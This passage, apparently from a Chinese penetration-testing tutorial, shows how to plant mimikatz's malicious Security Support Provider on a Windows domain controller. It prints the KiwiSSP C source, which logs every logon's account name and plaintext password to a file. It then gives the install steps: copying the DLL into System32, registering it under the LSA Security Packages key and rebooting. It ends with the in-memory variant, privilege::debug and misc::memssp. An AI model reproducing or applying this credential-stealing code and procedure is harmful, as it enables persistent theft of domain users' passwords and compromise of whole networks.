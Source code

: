 `mimikatz`早以支持这个功能,该文件为为`mimilib.dll`。mimikatz poc为:

    
    
    #include "kssp.h"static SECPKG_FUNCTION_TABLE kiwissp_SecPkgFunctionTable = {    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    kssp_SpInitialize, kssp_SpShutDown, kssp_SpGetInfo, kssp_SpAcceptCredentials,    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    NULL, NULL, NULL, NULL, NULL, NULL, NULL,};NTSTATUS NTAPI kssp_SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable){    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpShutDown(void){    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpGetInfo(PSecPkgInfoW PackageInfo){    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;    PackageInfo->wVersion   = 1;    PackageInfo->wRPCID     = SECPKG_ID_NONE;    PackageInfo->cbMaxToken = 0;    PackageInfo->Name       = L"KiwiSSP";    PackageInfo->Comment    = L"Kiwi Security Support Provider";    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials){    FILE * kssp_logfile;;#pragma warning(push)#pragma warning(disable:4996)    if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))#pragma warning(pop)    {            klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);        klog_password(kssp_logfile, &PrimaryCredentials->Password);        klog(kssp_logfile, L"\n");        fclose(kssp_logfile);    }    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables){    *PackageVersion = 0x00000042;    *ppTables = &kiwissp_SecPkgFunctionTable;    *pcTables = 1;    return STATUS_SUCCESS;}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084513.png)

64位和32位的都有,和目标系统位数要一致。将该dll拷贝到域控`c:\windows\system32`下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084514.png)

打开注册表,修改域控位置`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security
Packages\`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084515.png)

在`Security Packages`下添加`mimilib.dll`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084516.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084517.png)

将域控重启系统。打开新生成文件`c:\windows\system32\kiwissp.log`。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084518.png)

kiwissp.log记录着登录的账户和明文密码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084519.png)

但该方式弊端非常明显:重启的动作太大。mimikatz同样支持了以内存更新的方式更新ssp,无需重启就能获取到登录用户的账号信息和密码。

进入与目标系统位数相同的mimikatz后,输入命令

•privilege::debug•misc::memssp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084520.png)
